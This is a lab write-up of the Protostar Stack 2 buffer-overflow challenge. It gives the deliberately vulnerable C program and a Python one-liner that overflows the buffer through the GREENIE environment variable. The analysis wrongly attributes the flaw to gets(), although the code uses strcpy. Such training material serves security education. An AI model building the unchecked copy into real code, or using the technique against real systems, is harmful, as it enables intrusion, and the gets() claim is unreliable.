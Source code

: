 # PROTOSTAR : STACK 2
[Protostar:Stack2](https://exploit.education/protostar/stack-two/)

### SOURCE CODE
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The challenge involves Stack Buffer Overflow challenge and we are going to exploit the **gets()** function. We also need to add an environment variable **GREENIE**. We are going to be adding the output of our exploit script to the environment variable.

### **SOLUTION**

Executed the program but it requires but it requires the **GREENIE** enivronment variable.
```
user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable

```

Setting the environment variable and adding our exploit code output, then executing the program.
Keep in mind to pass the string **0x0d0a0d0a** in **LITTLE ENDIAN**.
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```
